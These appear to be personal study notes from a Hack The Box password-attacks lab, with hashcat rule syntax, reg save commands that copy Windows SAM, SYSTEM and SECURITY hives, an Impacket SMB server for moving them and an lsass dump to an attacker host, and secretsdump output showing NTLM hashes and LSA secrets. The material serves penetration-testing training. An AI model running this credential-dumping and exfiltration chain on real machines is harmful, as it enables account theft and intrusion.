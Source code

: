 
![[Auth_process1.webp]]



### password mutations

- create a password file based on password creteria 1 small, 1 caps , numbers , secical chars

- by ==hashcat==


|**Function**|**Description**|
|---|---|
|`:`|Do nothing.|
|`l`|Lowercase all letters.|
|`u`|Uppercase all letters.|
|`c`|Capitalize the first letter and lowercase others.|
|`sXY`|Replace all instances of X with Y.|
|`$!`|Add the exclamation character at the end.|

#### Hashcat Rule File


```shell
pradyun2005@htb[/htb]$ cat custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```





# attacking SAM


|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

- now we cannot access the sam,security,system files because it is used by another process
- so we copy a duplicate file and transfer to attack machine for offline cracking


```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg save hklm\security C:\security.save

The operation completed successfully.
```

now this is in victim machine ,tansfer to attacker machine



### SMB SERVER IN ATTACKER
```shell-session
pradyun2005@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <share name> <destination in attacker>
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```


#### Moving Hive Copies to Share

```cmd-session
C:\> move lsass.DMP \\110.10.14.159\lsass
        1 file(s) moved.

C:\> move security.save \\110.10.14.159\regfile
        1 file(s) moved.

C:\> move system.save \\110.10.14.159\regfile
        1 file(s) moved.
```



- now you have system,sam,security files

- use impacket secret dump to  dump sam hashes (system file needed)


```shell-session
pradyun2005@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```


# ATTACKING LSASS

  - lsass.exe always running
  - After a user logs in: lsass stored cahce creds , access tokens and other stuffs

#### Dumping LSASS Process Memory

![[Pasted image 20250104173810.png]]

